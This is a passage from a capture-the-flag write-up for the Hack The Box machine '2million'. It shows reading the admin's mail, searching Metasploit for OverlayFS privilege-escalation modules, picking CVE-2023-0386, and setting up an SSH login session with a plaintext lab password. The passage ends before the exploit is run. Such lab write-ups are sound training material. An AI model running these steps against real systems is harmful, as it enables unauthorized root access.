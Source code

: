 Well, we can login as admin and we have the user flag! 🎉🎉
# Root Flag
When we login into via `ssh`, we do get a notification that we have a mail. So, let's check that:
```
admin@2million:~$ cat /var/mail/admin 
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

So, we probably have to exploit this "OverlayFS". I recently learned using `metasploit`, so I head over to it (`msgconsole`) and search for "OverlayFS":
```
[msf](Jobs:0 Agents:0) >> search OverlayFS

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  exploit/linux/local/cve_2021_3493_overlayfs           2021-04-12       great      Yes    2021 Ubuntu Overlayfs LPE
   1    \_ target: x86_64                                   .                .          .      .
   2    \_ target: aarch64                                  .                .          .      .
   3  exploit/linux/local/gameoverlay_privesc               2023-07-26       normal     Yes    GameOver(lay) Privilege Escalation and Container Escape
   4    \_ target: Linux_Binary                             .                .          .      .
   5    \_ target: Linux_Command                            .                .          .      .
   6  exploit/linux/local/cve_2023_0386_overlayfs_priv_esc  2023-03-22       excellent  Yes    Local Privilege Escalation via CVE-2023-0386
   7  exploit/linux/local/overlayfs_priv_esc                2015-06-16       good       Yes    Overlayfs Privilege Escalation
   8    \_ target: CVE-2015-1328                            .                .          .      .
   9    \_ target: CVE-2015-8660                            .                .          .      .
```

Among these, there are three interesting CVEs among which 2 are very recent one (given the machine was released in 2023). The `0 - CVE-2021-3493` works on 2021 Ubuntu. Taking a quick look at remote system, we see it is running 2022 Ubuntu. So, this will not work. However, the other one, `CVE2023-0386`, can work as this was found in 2023 and our system is of 2022!
However, this exploit requires a "SESSION" withing `msfconsole`. So, Let's first do that.
```
[msf](Jobs:0 Agents:0) >> use auxiliary/scanner/ssh/ssh_login
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_login) >> set rhosts 10.10.11.221
rhosts => 10.10.11.221
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_login) >> set username admin
username => admin
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_login) >> set password SuperDuperPass123
password => SuperDuperPass123
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_login) >> run
```